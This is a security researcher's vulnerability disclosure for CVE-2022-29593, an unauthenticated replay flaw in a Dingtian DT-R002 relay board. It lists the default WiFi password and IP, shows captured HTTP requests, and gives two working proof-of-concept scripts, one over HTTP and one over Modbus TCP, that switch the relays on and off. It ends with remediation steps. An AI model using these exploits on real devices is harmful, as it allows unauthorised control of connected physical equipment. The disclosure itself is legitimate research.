






# CVE-2022-29593 - Authentication Bypass by Capture Replay (Dingtian-DT-R002)


## Title

Authentication Bypass by Capture-replay
Published: Version: 1.0
Vendor: Shenzhen Dingtian Technologies Co.,Ltd
Product: 2 Channel Relay Board/Relay Card
Version affected: Firmware V3.1.276A

[Product - Dingtian DTR004](https://www.dingtian-tech.com/en_us/relay4.html)

[Ali Express Link](https://www.aliexpress.com/item/4000156880252.html?pdp_ext_f=%7B%22sku_id%22:%2210000000490433000%22,%22ship_from%22:%22%22%7D&gps-id=pcStoreLeaderboard&scm=1007.22922.271278.0&scm_id=1007.22922.271278.0&scm-url=1007.22922.271278.0&pvid=14f5f189-4cc6-422b-ba63-0298e12f789d&spm=a2g0o.store_pc_home.smartLeaderboard_505567671.4000156880252)

## Product Description

- 2 Channel Relay Board/Relay Card
- WiFi/RS485/Ethernet capable

## Tech Specs

```
Overview

Support multiple channel relay, On/Off/Delay/Jog
Support multiple interface RJ45/RS485/CAN/WIFI
Local Button control
PC app config and control
WEB config and control
8KB FIFO command buffer
Support password.
WIFI smart config support
Button control
MQTT/Modbus/CoAP

Technical parameters

Interface RJ45/ RS485/CAN/WIFI
Baudrate 100M/115200bps/125kbps/150Mbps
Protocol TCP server/client,UDP server/client,RS485,CAN,WIFI
Operating temperature -10~+75°C
Storage temperature -40~+125°C
Relative humidity 5~95% RH, no condensation
Power supply 9-40V Non-polar
Current 1A@12V DC
Power consumption <5W

Relay parameters

Relay Power AC 250V/10A,DC 30V/10A
Delay 1~65535 seconds
Jog Pull in 0.5 seconds, automatically release

Power supply Non-polar

DC 9~40V Non-polar
```

## References

- [MITRE](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2022-29593)

## Manufacturer

- Founded in 2019, Dingtian is a manufacturer of IOT and access control system smart devices Efficient and stable products and fast delivery are our code of conduct

## Research

- Powered up (12VDC @ 1Amax)



- Network Scan
- Default Wifi (SSID): dtrelay7685 (Serial Number is the last four digits)
    - Where can I find the serial number ?
- Default PSK  (PSK):  dtpassword
- Default IP: 192.168.7.1

```
nmap -p- --open -Pn 192.168.7.1
PORT    STATE SERVICE
53/tcp  open  domain
80/tcp  open  http 
502/tcp open  mbap 
```

# HTTP Access

- HTTP accesss allows for the control of the device, whilst connected to the default SSID



## Finding

### Authentication Bypass by Capture-replay

- Dingtian (Dingtian DT-R002) 2CH relay, running firmware V3.1.276A allows for an attacker to replay the same data or similar data.  This allows the attacker to control the devices attached to the relays without requiring authentication.
- It was found that the devices relays could be controlled (turn on and off) through unauthentication HTTP requests

### Evidence shows the HTTP request and response used to turn on and off the relay.

```
Turning ON

Request
GET /relay_cgi.cgi?type=0&relay=0&on=1&time=0&pwd=0& HTTP/1.1
Host: 192.168.7.1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:95.0) Gecko/20100101 Firefox/95.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
DNT: 1
Connection: close
Referer: http://192.168.7.1/relay_cgi.html
Cookie: session=4463009

Response
HTTP/1.1 200 OK
Content-Type: text/html
Content-Length: 11

&0&0&0&1&0&

Turning OFF

Request
GET /relay_cgi.cgi?type=0&relay=0&on=0&time=0&pwd=0& HTTP/1.1
Host: 192.168.7.1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:95.0) Gecko/20100101 Firefox/95.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
DNT: 1
Connection: close
Referer: http://192.168.7.1/relay_cgi.html
Cookie: session=4463009

Response
HTTP/1.1 200 OK
Content-Type: text/html
Content-Length: 11

&0&0&0&0&0&
```

## Weakness Vulnerability
- CWE-294 - Authentication Bypass by Capture-replay

## Known Affected Software Configurations
- V3.1.276A (Firmware)


### PoC Code

```
#!/usr/local/bin/python3
# Author: Victor Hanna (SpiderLabs)
# DingTian DT-R002 2CH Smart Relay
# CWE-294 - Authentication Bypass by Capture-replay

import requests
import re
import urllib.parse
from colorama import init
from colorama import Fore, Back, Style
import sys
import os
import time

from urllib3.exceptions import InsecureRequestWarning
requests.packages.urllib3.disable_warnings(category=InsecureRequestWarning)

def banner():
    print ("[+]********************************************************************************[+]")
    print ("|   Author : Victor Hanna (9lyph)["+Fore.RED + "SpiderLabs" +Style.RESET_ALL+"]\t\t\t\t\t    |")
    print ("|   Description: DingTian DT-R002 2CH Smart Relay                                      |")
    print ("|   Usage : "+sys.argv[0]+" <host> <relay#>                                           |")   
    print ("[+]********************************************************************************[+]")

def main():
    os.system('clear')
    banner()
    urlRelay1On  = "http://"+host+"/relay_cgi.cgi?type=0&relay=0&on=1&time=0&pwd=0&"
    urlRelay1Off = "http://"+host+"/relay_cgi.cgi?type=0&relay=0&on=0&time=0&pwd=0&"
    urlRelay2On  = "http://"+host+"/relay_cgi.cgi?type=0&relay=1&on=1&time=0&pwd=0&"
    urlRelay2Off = "http://"+host+"/relay_cgi.cgi?type=0&relay=1&on=0&time=0&pwd=0&"

    headers = {
        "Host": ""+host+"",
        "User-Agent": "9lyph/3.0",
        "Accept": "*/*",
        "Accept-Language": "en-US,en;q=0.5",
        "Accept-Encoding": "gzip, deflate",
        "DNT": "1",
        "Connection": "close",
        "Referer": "http://"+host+"/relay_cgi.html",
        "Cookie": "session=4463009"
    }

    print (Fore.YELLOW + f"[+] Exploiting" + Style.RESET_ALL, flush=True, end=" ")
    for i in range(5):
        time.sleep (1)
        print (Fore.YELLOW + "." + Style.RESET_ALL, flush=True, end="")
    try:
        if (relay == "1"):
            print (Fore.GREEN + "\n[+] Relay 1 switched on !" + Style.RESET_ALL)
            r = requests.get(urlRelay1On)
            time.sleep (5)
            print (Fore.GREEN + "[+] Relay 1 switched off !" + Style.RESET_ALL)
            r = requests.get(urlRelay1Off)
            print (Fore.YELLOW + "PWNED !!!" + Style.RESET_ALL, flush=True, end="")
        elif (relay == "2"):
            print (Fore.GREEN + "[+] Relay 2 switched on !" + Style.RESET_ALL)
            r = requests.get(urlRelay2On)
            time.sleep (5)
            print (Fore.GREEN + "[+] Relay 2 switched on !" + Style.RESET_ALL)
            r = requests.get(urlRelay2Off)
            print (Fore.YELLOW + "PWNED !!!" + Style.RESET_ALL, flush=True, end="")
        else:
            print (Fore.RED + "[!] No such relay" + Style.RESET_ALL)
    except KeyboardInterrupt:
        sys.exit(1)
    except requests.exceptions.Timeout:
        print ("[!] Connection to host timed out !")
        sys.exit(1)
    except requests.exceptions.Timeout:
        print ("[!] Connection to host timed out !")
        sys.exit(1)
    except Exception as e:
        print (Fore.RED + f"[+] You came up short I\'m afraid !" + Style.RESET_ALL)

if __name__ == "__main__":
    if len(sys.argv)>2:    
        host = sys.argv[1]
        relay = sys.argv[2]
        main ()
    else:
        print (Fore.RED + f"[+] Not enough arguments, please specify target and relay!" + Style.RESET_ALL)

```

## Pwnage via ModbusTCP

It was also possible to switch relays on and off using the Modbus Protocol.  The Modbus protocol running on TCP 502 is somewhat insecure and allows for the Reading and Writing of registers without the need for authentication.

## Evidence shows the Writing to multiple registers using hex to switch the relay on and off

### PoC Code
```
cat modbusPwn.py
import socket
import sys
import os
import time

'''
4.3.2 0x06:Write Single Register
4 Relay All ON
Send:
0000 0000 0006 FF 06 0002 0f0f
Recv:
0000 0000 0006 FF 06 0002 0f0f
4 Relay All OFF
Send:
0000 0000 0006 FF 06 0002 0f00
Recv:
01 06 0002 0f00 2DFA
'''

s = socket.socket()
s.connect(("192.168.7.1", 502))
print ("[+] Turning Relay On")
on = ("000000000006FF0600020f0f")
off = ("000000000006FF0600020f00")
s.sendall((bytes.fromhex(on)))
time.sleep(5)
print ("[+] Turning Relay Off")
s.sendall((bytes.fromhex(off)))
data = s.recv(1024)
print ("[+] Pwned !!")
```

## Evidence shows the structure of the Modbus client request which shows the relevant Hex Codes after examination of a captured TCPDUMP

- Modbus Switch Relay ON



- Modbus Switch Relay OFF



- By capturing these Modbus Client transactions over the wire, it is possible to replay these to take control of the Relay and hence device connected to the relay

## Teardown

- ESP32 MCU - https://fccid.io/2AC7Z-ESP32
- [Datasheet](https://www.espressif.com/sites/default/files/documentation/esp32-wroom-32d_esp32-wroom-32u_datasheet_en.pdf)



## Haxed



## Remediation Steps

- Implementation of HTTPS
- Implementation of authorization tokens for each request/transaction

## Pwnage

https://user-images.githubusercontent.com/44860700/157830535-4d88b95b-dea5-4153-9e2e-91c114776432.mp4

#### Discoverer/Credit: 
Victor Hanna of Trustwave SpiderLabs

#### Follow me on
[Twitter](https://twitter.com/9lyph) [Linkedin](https://www.linkedin.com/in/victor-h-a894a84/) [Youtube](https://www.youtube.com/channel/UC79Q2b0tHeqsjjvEH0k7jZw)

